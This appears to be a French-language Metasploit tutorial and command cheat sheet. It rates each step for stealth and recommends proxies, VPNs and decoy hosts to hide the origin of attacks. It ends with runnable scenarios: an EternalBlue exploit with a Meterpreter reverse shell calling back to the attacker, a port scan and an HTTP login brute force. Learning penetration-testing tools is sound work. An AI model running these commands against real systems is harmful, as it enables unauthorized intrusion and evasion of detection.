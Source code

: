 #### Introduction

Metasploit est un framework open-source pour le développement et l'exécution d'exploits contre des systèmes distants. Il est conçu pour aider les professionnels de la sécurité à identifier et à exploiter les vulnérabilités dans les systèmes informatiques.

#### Installation de Metasploit

**Sous Linux (Debian/Ubuntu)**

```bash
sudo apt update
sudo apt install metasploit-framework
```

**Sous Windows**

Télécharge le programme d'installation depuis le site officiel de Metasploit et suis les instructions.

#### Démarrage de Metasploit

1.  **Lancer Metasploit Console**

    ```bash
    msfconsole
    ```

    * **Explication** : Lance la console interactive de Metasploit où tu peux exécuter des commandes, rechercher des exploits, et gérer des sessions.
    * **Discrétion** : N/A. Ce n'est pas un scan ou une attaque, donc la discrétion n'est pas un problème ici.

#### Commandes Principales de Metasploit

1.  **Recherche d'exploits**

    ```bash
    search <mot-clé>
    ```

    * **Explication** : Recherche des modules, des exploits, et des payloads correspondant au mot-clé spécifié.
    * **Discrétion** : N/A. Utilisé pour rechercher des modules, ne génère pas de trafic réseau visible.
2.  **Affichage des informations sur un exploit**

    ```bash
    info <nom_du_module>
    ```

    * **Explication** : Affiche les informations détaillées sur un module spécifique, y compris les options, les cibles, et les descriptions.
    * **Discrétion** : N/A. Information sur les modules, pas d'activité de scan ou d'exploitation.
3.  **Sélectionner un exploit**

    ```bash
    use <nom_du_module>
    ```

    * **Explication** : Sélectionne un module d'exploit pour l'utiliser dans Metasploit.
    * **Discrétion** : N/A. Cette commande sélectionne simplement un module pour une utilisation ultérieure.
4.  **Configurer les options de l'exploit**

    ```bash
    set <option> <valeur>
    ```

    * **Explication** : Configure les options nécessaires pour l'exploit, comme l'adresse IP cible et les paramètres spécifiques.
    * **Discrétion** : N/A. Configure les paramètres de l'exploit sans effectuer d'attaque réelle.
5.  **Afficher les options disponibles**

    ```bash
    show options
    ```

    * **Explication** : Affiche les options configurables pour le module actuel.
    * **Discrétion** : N/A. Affiche simplement les options configurables.
6.  **Lancer l'exploit**

    ```bash
    exploit
    ```

    * **Explication** : Lance l'exploit avec les options configurées. Peut essayer de pénétrer un système cible en exploitant une vulnérabilité.
    * **Discrétion** : Faible à moyenne. Peut être détecté par des IDS/IPS et générer des alertes.
7.  **Afficher les sessions ouvertes**

    ```bash
    sessions
    ```

    * **Explication** : Liste toutes les sessions ouvertes avec les systèmes compromis.
    * **Discrétion** : N/A. Gestion des sessions après exploitation.
8.  **Interagir avec une session**

    ```bash
    sessions -i <id_de_session>
    ```

    * **Explication** : Permet d'interagir avec une session active pour contrôler le système compromis.
    * **Discrétion** : Faible. Activité sur le système cible, potentiellement détectée par des systèmes de surveillance.

#### Modules et Payloads

1.  **Rechercher des modules**

    ```bash
    search <type:exploit> <mot-clé>
    ```

    * **Explication** : Recherche des exploits ou des modules spécifiques en fonction du type et du mot-clé.
    * **Discrétion** : N/A. Utilisé pour rechercher des modules, ne génère pas de trafic réseau visible.
2.  **Rechercher des payloads**

    ```bash
    search <type:payload> <mot-clé>
    ```

    * **Explication** : Recherche des payloads disponibles correspondant au mot-clé spécifié.
    * **Discrétion** : N/A. Recherches internes pour les payloads, pas d'activité externe.
3.  **Configurer un payload**

    ```bash
    set PAYLOAD <nom_du_payload>
    ```

    * **Explication** : Configure le payload à utiliser avec l'exploit sélectionné.
    * **Discrétion** : N/A. Configure les options pour le payload.
4.  **Afficher les payloads disponibles**

    ```bash
    show payloads
    ```

    * **Explication** : Affiche une liste des payloads disponibles pour le module d'exploit actuel.
    * **Discrétion** : N/A. Affiche les options disponibles, pas de trafic réseau.

#### Options Avancées

1.  **Utilisation de Metasploit avec des proxys**

    ```bash
    setg Proxies http://<proxy_address>:<port>
    ```

    * **Explication** : Configure Metasploit pour utiliser un proxy HTTP, ce qui peut aider à masquer l'origine des attaques.
    * **Discrétion** : Haute. Masque l'origine des requêtes en utilisant un proxy.
2. **Utilisation de VPN pour masquer l'origine**
   * **Explication** : En utilisant Metasploit via un VPN, tu peux masquer l'origine de ton activité.
   * **Discrétion** : Très haute. Utiliser un VPN ajoute une couche de dissimulation.
3. **Utilisation de decoy hosts**
   * **Explication** : Lorsque tu réalises des scans, utiliser des hôtes leurres pour masquer l'origine réelle.
   * **Discrétion** : Très haute. Les leurres compliquent la détection de la source réelle des activités.

#### Exemples de Scénarios

1.  **Exploitation d’une vulnérabilité connue**

    ```bash
    use exploit/windows/smb/ms17_010_eternalblue
    set RHOSTS 192.168.1.10
    set PAYLOAD windows/x64/meterpreter/reverse_tcp
    set LHOST 192.168.1.5
    exploit
    ```

    * **Explication** : Utilise l'exploit EternalBlue pour exploiter une vulnérabilité SMB sur une machine Windows, avec un payload Meterpreter pour la connexion inverse.
    * **Discrétion** : Faible. Les exploits bien connus comme EternalBlue peuvent être détectés par des IDS/IPS.
2.  **Scan de port et identification du système d’exploitation**

    ```bash
    use auxiliary/scanner/portscan/tcp
    set RHOSTS 192.168.1.10
    run
    ```

    * **Explication** : Utilise un module de scan de ports pour identifier les ports ouverts sur une cible.
    * **Discrétion** : Moyenne. Le scan de ports peut être détecté et générer des alertes.
3.  **Utilisation de Metasploit pour une attaque par force brute**

    ```bash
    use auxiliary/scanner/http/http_login
    set RHOSTS 192.168.1.10
    set TARGETURI /login
    set USER_FILE /path/to/usernames.txt
    set PASS_FILE /path/to/passwords.txt
    run
    ```

    * **Explication** : Utilise un module de force brute pour tester des combinaisons de noms d’utilisateur et mots de passe sur une interface de connexion HTTP.
    * **Discrétion** : Faible. Les tentatives de connexion par force brute peuvent facilement être détectées par des systèmes de surveillance.
